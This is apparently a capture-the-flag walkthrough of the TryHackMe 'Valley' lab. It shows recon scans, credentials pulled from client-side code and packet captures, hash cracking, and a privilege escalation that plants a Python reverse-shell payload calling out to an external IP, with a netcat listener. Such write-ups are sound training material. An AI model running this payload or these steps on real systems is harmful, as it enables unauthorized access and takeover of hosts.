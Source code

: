 https://tryhackme.com/room/valleype
>IP:10.10.156.47

# RECON
>nmap -p- 10.10.156.47 -T5 -vv
```
22/tcp    open  ssh     syn-ack ttl 63
80/tcp    open  http    syn-ack ttl 63
37370/tcp open  unknown syn-ack ttl 63
```

>sudo nmap -sC -sV -Pn 10.10.156.47 -p80,22,37370
```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
|_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
```

>http://10.10.156.47/pricing/note.txt
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427083729.png)

>ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt:FFUZ -u http://10.10.156.47/FFUZ -ic -c

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427084201.png)

```
sudo bash -c  'echo "10.10.156.47    valley.thm" > /etc/hosts'
```

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u http://valley.thm/ -H 'Host: FUZZ.valley.thm' -fs 1163
```

>ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://valley.thm/static/FFUZ -ic -c -e txt,php

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090220.png)
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090234.png)
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090516.png)
>Обработка данных на стороне клиента 
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090634.png)
```
siemDev:california
```
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427090831.png)

```
get siemFTP.pcapng
get siemHTTP1.pcapng
get siemHTTP2.pcapng
```

```
anonymous:anonymous
```
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427091229.png)

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427092411.png)

>siemHTTP2.pcapng

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427092639.png)

```
valleyDev:ph0t0s1234
```

>ssh valleyDev@10.10.156.47   

# LPE
## Flag1
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427092927.png)

Linpeas
```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

```
python3 -m http.server 80
wget http://10.11.134.170/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

==Vulnerable to CVE-2021-3560==
```
root:x:0:0:root:/root:/bin/bash                                                    siemDev:x:1001:1001::/home/siemDev/ftp:/bin/sh
valleyDev:x:1002:1002::/home/valleyDev:/bin/bash
valley:x:1000:1000:,,,:/home/valley:/bin/bash
```
photos/script/photosEncrypt.py 

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427094104.png)

```
scp valleyDev@10.10.156.47:/home/valleyAuthenticator /tmp 
```

```
strings valleyAuthenticator
```
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427101205.png)

```
hashcat -m 0 "e6722920bab2326f8217e4bf6b1b58ac" /usr/share/wordlists/rockyou.txt
```
>e6722920bab2326f8217e4bf6b1b58ac:liberty123    
```
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
```

```
valleyDev@valley:/home$ ls -la /photos/script/photosEncrypt.py 
-rwxr-xr-x 1 root root 621 Mar  6  2023 /photos/script/photosEncrypt.py


valleyDev@valley:/home$ cat /photos/script/photosEncrypt.py 

#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)

```

-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13  2023 /usr/lib/python3.8/base64.py

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14.77",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

```
nc -lnvp 1337
```

![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427103329.png)
![Valley](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Valley/screenshots/20250427103429.png)
